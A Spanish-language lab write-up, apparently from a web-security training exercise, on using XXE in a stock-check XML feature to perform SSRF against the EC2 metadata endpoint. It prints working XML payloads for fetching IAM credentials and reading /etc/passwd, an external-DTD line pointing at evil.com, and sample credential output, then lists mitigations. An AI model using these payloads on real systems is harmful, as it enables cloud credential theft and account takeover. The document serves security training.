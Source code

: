 # Exploiting XXE to Perform SSRF Attacks

## Introducción

Esta práctica de laboratorio explora cómo explotar una vulnerabilidad de **XXE (XML External Entity)** para realizar un **ataque SSRF (Server-Side Request Forgery)** y obtener credenciales de acceso desde el punto final de metadatos de una instancia EC2.

## Explicación del Ataque

La función "Verificar stock" del sitio web procesa datos en formato XML y devuelve respuestas que pueden incluir valores inesperados. El servidor está configurado con un **punto final de metadatos EC2** accesible en la URL `http://169.254.169.254/`. Este punto final proporciona información sobre la instancia, incluyendo credenciales IAM que pueden ser sensibles.

Nuestro objetivo es explotar la vulnerabilidad **XXE** para realizar un ataque **SSRF**, lo que nos permitirá acceder al punto final de metadatos y extraer información privilegiada.

## ¿Siempre se necesita el `&` antes de `xxe`?

Sí, cuando hacemos referencia a una entidad XML definida en un `DOCTYPE`, debemos utilizar `&xxe;` para que el parser XML interprete correctamente la entidad y la reemplace por su valor. Por ejemplo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Si omites `&`, el parser no reconocerá la entidad `xxe` y tratará el texto como un valor normal en XML, evitando la ejecución del ataque.

## ¿Siempre hay que apuntar a `xxe`?

No necesariamente. En el ataque XXE podemos apuntar a diferentes fuentes de información. Algunos ejemplos incluyen:

- **Archivos locales:**
    
    ```xml
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ```
    
- **Puntos finales internos (SSRF):**
    
    ```xml
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
    ```
    
- **Servidores externos:**
    
    ```xml
    <!ENTITY xxe SYSTEM "http://evil.com/malicious.dtd">
    ```
    

## Enumeración de Directorios en un Servidor Interno

Si la aplicación permite la enumeración de directorios, podemos listar información sensible del servidor de metadatos:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Esto podría devolver información como:

```
ami-id
ami-launch-index
hostname
iam/
instance-id
instance-type
mac
network/
```

Con esta información, podemos profundizar más en la explotación.

## Explotación para Obtener Credenciales IAM

Para obtener credenciales IAM del servidor de metadatos EC2:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Salida esperada:

```json
{
  "AccessKeyId": "D0gVNXv8UoUk7oK68X",
  "SecretAccessKey": "5LFY0rGLzaZGlqMw3GUAYfX0FZpweS0he0DT1k8E",
  "Token": "MiJfxrPm1w3BWphE8ATKJ9g8lRxOYU...
}
```

Con esta información, podemos autenticar llamadas API de AWS y potencialmente tomar control de la cuenta.

## Conclusión

Este laboratorio demuestra cómo una vulnerabilidad **XXE** puede ser explotada para realizar un ataque **SSRF**, obteniendo acceso a recursos internos y credenciales sensibles. La mitigación de este tipo de ataques incluye:

- Deshabilitar la carga de entidades externas en XML.
- Usar `whitelists` para limitar las solicitudes XML.
- Implementar validaciones estrictas de entrada.

Siempre es importante analizar cómo las aplicaciones web manejan los datos XML para evitar estos vectores de ataque.
![[Pasted image 20250128215953.png]]